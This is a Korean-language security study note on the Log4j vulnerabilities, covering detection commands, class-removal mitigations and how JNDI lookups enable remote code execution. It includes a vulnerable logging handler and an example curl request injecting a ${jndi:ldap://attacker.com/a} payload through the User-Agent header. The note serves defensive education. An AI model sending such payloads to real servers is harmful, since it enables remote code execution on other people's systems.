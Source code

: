 
[로그에 대한 기본 지식](https://github.com/sungmin4036/infomation_security/blob/main/etc/log%EB%9E%80%3F.md)       
[log4j 위협 대응](https://github.com/sungmin4036/infomation_security/blob/main/Recent_Issue/log4j%20%EC%9C%84%ED%98%91%20%EB%8C%80%EC%9D%91.md)
---

- log4j란?

: log4j의 기능은 웹 서비스 동작 과정에서 일어나는 모든 기록을 남겨 침해사고 발생 및 이상징후를 점검하기 위해 필수적으로 필요한 기능.  

무료로 제공되는 오픈소스 프로그램으로 Java 기반의 모든 어플리케이션에서 사용할 수 있습니다.

<br>

- log4j 주로 사용하는 서비스는? 
: 일반적인 웹 사이트, 쇼핑몰, 그룹웨어 등 JAva를 기반으로 한 JVM(Java Virtual Machine) 환경을 사용하는 모든 서비스에서 사용 가능

<br>

- log4j  사용하고 있는지 확인 하는 방법

```
linux

- dpkg -l | grep log4j
- find / -name 'log4j*'
```

```
windows

- window explorer의 검생 기능(log4j 검색)을 이용

```

```
Java Spring Framework Maven

log4j가 설치된 경로의 pom.xml 파일을 열어 "log4j-core"로 검색

```

![image](https://user-images.githubusercontent.com/62640332/159493244-9f2caebe-805e-43c8-84ad-9e99ca944501.png)

<br>

- log4j 1.X 버전 영향은?

: log4j 1.x 버전은 CVE-2021-44228, CVE-2021-45046 취약점에는 영향을 받지 않으나 CVE-2021-4104에 해당.

본 취약점은 `JMSAppender`를 사용하지 않는 경우 취약점의 영향은 없으나 , 1.x 버전은 이미 2015년 이후 업데이트가 종료되었으므로 보안 위협들에 노출될 가능성이 높습니다. 최신버전으로 업데이트 적용하기를 권고


<br>

- 버전에 따라 log4j 조치하는 방법 및 업데이트 불가능할 경우 대응 방법.

  - JAVA사용 버전에 따라 최신 LOG4j 버전으로 업데이트 수행

  - 즉시 업데이트가 어려운 경우 log4j 버전 따른 해결 방안 

```
zip : 압축하는 리눅스 명령어

-d : 특정경로의 class를 delete 한다. 

-q : 메세지 출력 제한 옵션이다. 
```

  - log4j-2.x 버전 ] CVE-2021-44228, CVE-2021-45046 : JndiLookup 클래스를 경로에서 제거
    
    - zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class

    - log4j-core JAR 파일 없이 log4j-api JAR파일만 사용하는 경우 취약점의 영향 받지 않음



  - log4j-1.2.x 버전] CVE-2021-4104 : JMSAppender 사용 확인 후 코드 수정 또는 삭제

    - zip -d log4j-1.2.12.jar org/apache/log4j/net/JMSAppender.class  

    - zip -d log4j-1.2.*.jar org/apache/log4j/net/JMSAppender.class (* 모든버전일괄)




<br>

- 보안 업데이트 안되있을시 발생할수 있는것

: 원격의 공격자가 이 취약점을 이요하여 악성코드 유포, 중요 데이터 탕취, 임의의 파일 다운로드 및 실행 가능.


---

![image](https://user-images.githubusercontent.com/62640332/160333695-05063e41-e79f-43ba-81c3-ef50c793ce60.png)





---


### ㅁ JNDI

: JNDI 는 Java Naming and Directory Interface의 약자로 클라이언트가 서버상의 데이터나 객체를 lookup 할 수 있는 Java API

찾고자 하는 객체에 접근 할 수 있는 단일의 인터페이스를 제공하며 이 API를 이용해서 객체를 lookup, querying 그리고 binding 할 수 있다.

예로 아래와 같은 소스코드가 실행이 가능하다 

```
DataSource ds = (DataSource) ctx.lookup("java:comp/env/jdbc/datasource");
assertNotNull(ds.getConnection());
```

![image](https://user-images.githubusercontent.com/62640332/160330119-327b75d5-d130-4ba2-8e00-6dd695e18650.png)

- Log4J 에서 JNDI 호출

특정 버전의 Log4J에서 JNDI를 포함한 쿼리를 호출하는 경우 내부적으로 객체를 lookup 하는 기능이 있었다.

특정 버전에서 Log4J 함수로 특정한 쿼리를 실행하면 JNDI를 실행한다. 그래서 단순한 로그만 출력해도 아래 그림처럼 시스템 내부의 특정 프로그램을 실행할 수 있게 된다.

아래 그림은 Log4J를 실행해서 원격 서버의 프로그램이 실행된 예다.

![image](https://user-images.githubusercontent.com/62640332/160330264-db894897-66c0-4101-be5b-cf2f948ac896.png)

그래도 출력하는 로그가 하드 코딩돼서 실행중에 바뀌지 않는다면 문제는 없다. 직접 로그 안에 JNDI를 심어두는 일은 거의 없을 거니까. 그런데 서버 프로그래밍을 하다 보면 사용자가 갖고 있는 정보나 URL의 파라미터를 출력하게 되는 경우도 종종 생긴다. 만약 해커가 로그를 출력하는 부분을 파악해 해당 api에 의도적으로 JNDI LDAP 정보를 심어 넣는다면 외부에서 코드를 실행할 수 있게 된다.

```
public class VulnerableLog4jExampleHandler implements HttpHandler { static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());
/*
* A simple HTTP endpoint that reads the request's User Agent and logs it back.
* This is basically pseudo-code to explain the vulnerability, and not a full example.
* @param he HTTP Request Object */ 

public void handle(HttpExchange he) throws IOException { String userAgent = he.getRequestHeader("user-agent");
// This line triggers the RCE by logging the attacker-controlled HTTP User Agent header.
// The attacker can set their User-Agent header to: ${jndi:ldap://attacker.com/a}

log.info("Request User Agent:{}", userAgent); ... } }
```

위의 코드를 보면 사용자의 user-agent 정보를 log.info 로 출력한다. 디버깅 용도로 이런 로그 한번 쯤은 찍어두게 했을 것이다. 그런데 만약 해커가 User-Agent를 이렇게 바꿨다고 해보자 

```
curl 127.0.0.1:8080 -H 'User-Agent: ${jndi:ldap://attacker.com/a}'
```
그러면 User-Agent를 출력하는 코드가 영락 없이 JNDI를 호출하는 코드가 실행되고 해커의 서버에선(attacker.com) 우리의 서버와 JNDI를 통해서 내부 라이브러리를 실행할 수 있게 된다.

[출처]
1. kisa log4j 보안 취약점 가이드
2. https://selfish-developer.com/entry/log4j-%EC%9D%B4%EC%8A%88-%EC%82%B4%ED%8E%B4%EB%B3%B4%EA%B8%B0
